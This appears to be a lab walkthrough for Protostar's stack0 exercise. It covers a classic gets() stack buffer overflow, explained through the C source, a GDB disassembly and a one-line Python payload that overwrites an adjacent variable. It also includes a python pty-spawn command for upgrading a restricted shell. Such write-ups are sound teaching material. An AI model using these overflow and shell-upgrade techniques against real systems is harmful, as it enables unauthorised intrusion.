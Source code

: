 # Stack0: Level 0 in pwn - stack BOF

First, make sure you are on the right directory.  
```bash
cd /opt/protostar/bin
```   
If you find the given shell restricted, run the following command to hop into a tty shell:    
```bash
python -c "import pty; pty.spawn('/bin/bash')"
```  
You can read more about this on, [spawning a TTY Shell](https://netsec.ws/?p=337)    
Now, we are given a piece of C code  
```c
 #include <stdlib.h>
 #include <unistd.h>
 #include <stdio.h>
 
 int main(int argc, char **argv)
 {
   volatile int modified;
   char buffer[64];
 
   modified = 0;
   gets(buffer);
 
   if(modified != 0) {
       printf("you have changed the 'modified' variable\n");
   } else {
       printf("Try again?\n");
   }
 }
```  
At first, we need to test the normal behavior of the program. It is expecting a string of characters passed through STDIN.   
```bash
user@protostar:~$ /opt/protostar/bin/stack0
TEST
Try again?
```   
We now have to make a theory and then check it using a debugger(in our case GDB).   
We have a buffer of 64 characters stacked in the bottom of the Stack, on top of which is an integer of size 4 bytes.The goal is to simply change the var _modified_ value into anything thus we can think of overflowing into **mofified**.  
We can have high hopes on this idea since gets() is used and as the man pages mention:
*Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.*  
This means that we simply need to input a string of 65 characters and that will mean we will modify a byte from modified thus solving the exercice.  
However, lets try to disass our program and understand how our variables are layed in the stack upon execution.  
Note that this series will depend on GDB(The GNU Debugger Project). However since this is the first walkthrough, we will use objdump.   
We will at first need the file type as it may help with addressing (this step is only mentioned here since all protostar tasks are 32-bit ELFs).    
```
file stack0
```   
Now, we can disass the executable using [**objdump**](https://linux.die.net/man/1/objdump) or GDB:

we need to load the executable with GDB:   
```bash
gdb stack0
disass main # to disassemble the main function
```   
we are prompted with   
```asm
(gdb) disass main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   %ebp
0x080483f5 <main+1>:    mov    %esp,%ebp
0x080483f7 <main+3>:    and    $0xfffffff0,%esp
0x080483fa <main+6>:    sub    $0x60,%esp
0x080483fd <main+9>:    movl   $0x0,0x5c(%esp)
0x08048405 <main+17>:   lea    0x1c(%esp),%eax
0x08048409 <main+21>:   mov    %eax,(%esp)
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    0x5c(%esp),%eax
0x08048415 <main+33>:   test   %eax,%eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   movl   $0x8048500,(%esp)
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   movl   $0x8048529,(%esp)
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```   
Most of the lines are usess to our scope, however we are interested in the line at 0x080483fd, that instruction resets the value of modified at the addr of *ESP + 0x5c*. A check is later done against the value 0 on the line *0x08048415* .
Later, we can see that the *buffer* starts at the addr *0x1c + ESP* meaning that modified and buffer are next to each other on the stack, thus the hopothesis is verified: *0x5c(h)-0x1c(h) = 0x40(h) = 64(10)*.  
Now, we can try to exploit the bug by simply running the command:   
```bash
python -c "print 'o'*64 + 'k'" | ./stack0
```   
That command serves us with writing the payload:   
65 'o' characters are used to fill the buffer[] +  byte('o') to fill the first byte of modified thus modify it and change the execution flow to print the success message.   
The pipe operator "|" will pipe the output of print from STDIN to the STDIN of stack0.   
**Congrats**!! Now you just solved the first level ^^.
